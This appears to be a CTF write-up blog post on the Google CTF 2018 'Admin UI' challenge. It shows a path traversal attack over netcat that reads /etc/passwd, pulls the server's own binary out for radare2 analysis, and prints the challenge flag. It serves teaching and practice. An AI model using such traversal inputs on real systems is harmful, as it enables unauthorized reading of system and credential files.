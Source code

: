 ```yaml
---
layout: article
title: Reversing with Radare2 - Google CTF 2018 - Part 1
permalink: /page/reversing-with-radare2-part-1
key: page-article-header-overlay-background-image-HB
cover: /assets/images/thumbs/reversing-with-radare2-part-1.png
header:
  theme: dark
  background: 'linear-gradient(135deg, rgb(195, 55, 100), rgb(29, 38, 113))'
article_header:
  type: overlay
  theme: dark
  background_color: '#0F2027'
  background_image:
    gradient: 'linear-gradient(135deg, rgba(195, 55, 100, .6), rgba(29, 38, 113, .6))'
    src: /assets/images/posts/reversing-with-radare2-part-1/cover.png
---
```


Tackling reverse engineering challenges in Google CTF Beginners Quest with Radare2 (Admin UI).

<!--more-->

<style>
  .page__header .header__brand path {
    fill: rgba(255, 255, 255, .95);
  }
</style>

## Objective
In the summer of 2018, Gynvael of Google Security broadcasted a <a href="https://www.youtube.com/watch?v=qDYwcIf0LZw" target="_blank">livestream</a> of the Google CTF 2018 Beginners Quest series. In the stream, he provides thorough explanations of solutions to each of the challenges provided by Google.

The Beginners Quest series categorizes each challenge based on the type of security vulnerability presented. To find more information on the challenges, visit the official CTF <a href="https://capturetheflag.withgoogle.com/" target="_blank">site</a>.   

In the series, Google challenges participants with a number of reverse engineering tasks, specifically, Admin UI 1-3 and Message of the Day. Our goal is to work through these challenges without the help of a decompiler. Instead, we'll be using <code>radare2</code> to disassemble the relevant binaries and see how we can come up with the same solutions provided by Gynvael in his livestream.


## Admin UI

<img src="/assets/images/posts/reversing-with-radare2-part-1/node.png" alt="" class="center">
<br>
<br>
<img src="/assets/images/ctfs/google-ctf-beginners-quest-2018/60.png" alt="" class="center">

<br>
The Admin UI line begins with the mysterious management interface which we can connect to through netcat on port 1337. When we connect to the interface, our console shows a menu. It might be tempting to start fuzzing the input to see what kind of crashes we can cause, but it's always worthwhile to try the basic commands first to get an of the functions behind each option.
<br>
<br>
<img src="/assets/images/ctfs/google-ctf-beginners-quest-2018/61.png" alt="" class="center">

```bash
root@kali:~/google-ctf-2018/admin-ui# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
1
Please enter the backdoo^Wservice password:
123456  
Incorrect, the authorities have been informed!
root@kali:~/google-ctf-2018/admin-ui# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
1
Error: No such file or directory
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
```

When we try to access the first patchnotes document displayed by the console, using "1" as input, we get a suspicious response -- "Error: No such file or directory." The output resembles what the terminal might send back if we try to <code>cat</code> a nonexistent file. 

```bash
root@kali:~/google-ctf-2018/admin-ui# cat missing-file
cat: missing-file: No such file or directory
```

Let's test for local file inclusion using <b>/etc/passwd</b>


```
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
user:x:1337:1337::/home/user:
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
```

Looks like we have local file inclusion in the application. When we check <b>/self/proc/exe</b> for the executable being run by the current pid, we get some binary output. 

<img src="/assets/images/ctfs/google-ctf-beginners-quest-2018/62.png" alt="" class="center">

If we can redirect the output to a file on our machine, we may be able to debug the binary to figure out what's going on under the hood. Before we do, we have to clean up the file contents using <code>hexeditor -b</code> since the menu was appended to the beginning.

```bash
root@kali:~/google-ctf-2018/admin-ui# echo -e "2\n../../../../../../proc/self/exe" | nc mngmnt-iface.ctfcompetition.com 1337 > main
^C

root@kali:~/google-ctf-2018/admin-ui# file main
main: data

root@kali:~/google-ctf-2018/admin-ui# hexeditor -b main 
```

<img src="/assets/images/ctfs/google-ctf-beginners-quest-2018/63.png" alt="" class="center">

<img src="/assets/images/ctfs/google-ctf-beginners-quest-2018/64.png" alt="" class="center">

We can delete all the bytes before the ELF magic number <b>0x7F 0x45 0x4C 0x46</b> or <b>0x7F 'E' 'L' 'F'</b> on line <b>B0</b>.

<img src="/assets/images/ctfs/google-ctf-beginners-quest-2018/65.png" alt="" class="center">

<img src="/assets/images/ctfs/google-ctf-beginners-quest-2018/66.png" alt="" class="center">

Doing this converts our <b>main</b> file to a proper executable. 

```bash
root@kali:~/google-ctf-2018/admin-ui# file main 
main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e78c178ffb1ddc700123dbda1a49a695fafd6c84, with debug_info, not stripped

```

Notice we have <b>debug_info</b> available. Using <b>radare2</b>, we can examine <b>main</b> in detail using the <code>vv</code> option.

```bash
root@kali:~/google-ctf-2018/admin-ui# r2 main 
[0x41414150]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
[0x41414150]> vv
```

Here we get a list of symbols that include the functions within our executable. If we examine the <b>primary_login__</b> function, we'll find <b>obj.FLAG_FILE</b> corresponds to simply, <b>flag</b>.

<img src="/assets/images/ctfs/google-ctf-beginners-quest-2018/67.png" alt="" class="center">

<img src="/assets/images/ctfs/google-ctf-beginners-quest-2018/68.png" alt="" class="center">

If we reconnect back to the management interface and check the directory serving patchnotes for a file named <b>flag</b>, we successfully print the contents of our flag to console.

```bash
root@kali:~/google-ctf-2018/admin-ui# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../flag
CTF{I_luv_buggy_sOFtware}=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
```

<br>
<br>
### Solution
<b>CTF{I_luv_buggy_sOFtware}</b>


In part 2, we'll look at the next quest in this line, Admin UI 2.